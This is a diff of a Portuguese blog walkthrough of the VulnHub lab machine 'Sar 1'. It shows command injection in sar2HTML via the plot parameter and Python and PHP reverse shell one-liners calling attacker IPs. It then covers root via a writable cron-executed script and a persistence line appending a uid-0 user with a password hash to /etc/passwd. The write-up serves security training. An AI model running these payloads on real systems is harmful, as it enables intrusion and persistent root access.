

Sar

Changed region(s): [[0.0, 0.0, 0.9793, 0.989]]

diff --git a/_posts/2021-01-15- VulnHub - Sar 1.md b/_posts/2021-01-15- VulnHub - Sar 1.md
@@ -43,9 +43,131 @@ Entramos no site pra ver do que se trata
 Rodamos o gobuster nele
 
 ```bash
-gobuster dir -u http://192.168.56.110 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 100
+gobuster dir -u http://192.168.56.110 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 100
 ```
 
 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/gobuster.png)
 
 Achamos o **phpinfo.php** e o **robots.txt**
+
+### Robots.txt
+
+Verificando o Robots.txt
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/robots.png)
+
+Interessante... **sar2HTML**
+
+Vamos pesquisar o que é isso, ao entrarmos na página web, temos uma surpresa
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/sar.png)
+
+# Exploração sarHTML
+
+Então vamos procurar por exploits para ele
+
+**sar2html Ver 3.2.1**
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/sar1.png)
+
+https://www.exploit-db.com/exploits/47204
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/sar2.png)
+
+```
+In web application you will see index.php?plot url extension.
+
+http://<ipaddr>/index.php?plot=;<command-here> will execute 
+the command you entered. After command injection press "select # host" then your command's 
+output will appear bottom side of the scroll screen.
+```
+
+Então executamos! Conseguimos ler o /etc/passwd!
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/sar3.png)
+
+# Reverse Shell
+
+Testei vários reverses shells, o que deu certo foi em python
+
+**python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'**
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/rev.png)
+
+Vamos iniciar a escalação de privilégios
+
+# Normal -> Root
+
+Primeira coisa é rodar o linpeas
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/linpeas.png)
+
+Baixamos pra máquinas
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/linpeas1.png)
+
+Executamos nela
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/linpeas3.png)
+
+Encontramos um cron que nos chamou atenção!
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/linpeas4.png)
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/linpeas6.png)
+
+Verificamos mais de perto ela
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/cron.png)
+
+Hummm... ele executa um script no /var/www/html como root, interessante, vamos até lá ver o que podemos extrair de bom
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/cron1.png)
+
+1 - Verificamos que para alterar o script devemos ser root.
+
+2 - Contudo, vemos que esse script executa outro script... o write.sh
+
+3 - Verificamos as permissões do write.sh e vemos que podemos escrever nele
+
+4 - Apenas verificamos o que tem nele
+
+5 - Verificamos que somos o www-data, que tem permissões nesse arquivo
+
+Vou demonstrar duas maneiras, uma com um shell direto e outra adicionando um usuário no /etc/passwd para fins de persistência
+
+## Shell Reverso de root
+
+Apenas adicionamos nosso reverse nele e esperamos ele executar
+
+**php -r '$sock=fsockopen("192.168.1.20",4444);exec("/bin/sh -i<&3 >&3 2>&3");'**
+
+Somos root!
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/cron2.png)
+
+## Persistência
+
+Para adicinar persistência nele vamos colocar um usuário no passwd, pra podermos acessar o terminal via su
+
+**echo "hacker:aaDUnysmdx4Fo:0:0:hacker:/root:/bin/bash" >> /etc/passwd**
+
+hacker:senha
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/cron3.png)
+
+Esperamos ele executar de novo o cron e verificamos o /etc/passwd
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/cron4.png)
+
+Acessamos via sudo hacker
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/cron6.png)
+
+# Flags
+
+Pegamos as flags de user e root
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/user.png)
+
+![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-sar/root.png)
